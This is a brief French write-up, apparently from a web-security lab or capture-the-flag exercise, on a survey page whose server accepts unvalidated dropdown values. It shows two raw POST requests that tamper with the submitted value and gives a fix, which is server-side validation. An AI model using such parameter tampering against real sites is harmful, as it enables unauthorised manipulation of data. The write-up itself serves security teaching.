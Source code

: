 # Non verified data send

## Exploitation

Sur la page ?page=survey on peut voir des menus déroulant avec des valeurs dedans il est possible de les changer le serveur ne les verifie pas 

```text
POST /?page=survey HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=survey
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```

sujet=2&valeur=6

```
POST /?page=survey HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=survey
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```

sujet=2&valeur=42

l'important c'est les valeurs

## Resolution

Faire vérifier par le serveur que les valeur envoyées existent bel et bien